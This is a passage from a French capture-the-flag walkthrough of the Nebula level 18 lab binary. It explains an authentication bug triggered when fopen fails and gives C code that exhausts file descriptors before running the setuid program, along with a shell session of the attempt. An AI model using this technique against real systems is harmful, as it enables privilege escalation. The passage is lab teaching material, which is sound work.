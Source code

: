 * dernier point qui me semblait possible : le binaire lit un mot de passe présent dans `/home/flag18/password` et le compare à la valeur que l'on peut donner via la commande `login`. Le binaire offre aussi une option `-d` permettant de spécifier un fichier de log et donc d'écrire du contenu avec les droits de l'utilisateur `flag18`.

J'ai pensé par conséquent à écraser ce fichier `password` par le fichier de log mais ce dernier aura toujours un entête `Starting up...` qu'on ne contrôle pas. Ce ne serait pas génant d'avoir cette chaine comme mot de passe MAIS elle contient un retour à la ligne qui sera conservé par le `fgets` de `login` alors que la boucle while de son côté transforme le premier retour à la ligne en octet nul... du coup la comparaison ne fonctionnera jamais.

Si l'utilisateur avait eu un dossier `.ssh` nous aurions pu créer (via le fichier de log) un fichier `authorized_keys` avec une clé publique faible pour passer ne pas dépasser les 256 octets... mais ce n'est pas le cas.

Le dernier bug qu'il fallait trouver se situe aussi dans la fonction `login` : si la fonction `fopen` échoue le programme marque que l'on est authentifié. On peut alors utiliser la commande `shell`.

Pour arriver à nos fins il faut faire en sorte que le binaire atteigne le maximum de descripteurs de fichiers ouverts. La limite est à priori appliquée sur le processus et son processus parent. J'ai donc écrit un code similaire à ce que d'autres ont fait :

```c
#include <unistd.h>
#include <stdio.h>

extern char **environ;

int main(int argc, char *argv[]) {
        int n = atoi(argv[1]);
        char line[2];
        int i;
        int fd;
        char* const args[] = {"/home/flag18/flag18", "--rcfile", "-d", "/tmp/log", NULL};

        for (i=0; i<n; i++) {
                fd = dup(1);
        }
        printf("ready\n");
        fgets(line, 2, stdin);
        execve(args[0], args, environ);
        return 0;
}
```

Le binaire duplique le descripteur de l'entrée standard autant de fois qu'on lui demande. Il affiche ensuite `ready` et attend qu'on tape sur `Enter`. Il lance alors le binaire vulnérable.

Par défaut ça ne fonctionne pas car le binaire n'a même plus de disponibilités pour charger les librairies :

```shellsession
level18@nebula:~$ ./exhaust 1020
ready

/home/flag18/flag18: invalid option -- '-'
/home/flag18/flag18: invalid option -- 'r'
/home/flag18/flag18: invalid option -- 'c'
/home/flag18/flag18: invalid option -- 'f'
/home/flag18/flag18: invalid option -- 'i'
/home/flag18/flag18: invalid option -- 'l'
/home/flag18/flag18: invalid option -- 'e'
login aa
shell
/home/flag18/flag18: error while loading shared libraries: libncurses.so.5: cannot open shared object file: Error 24
```
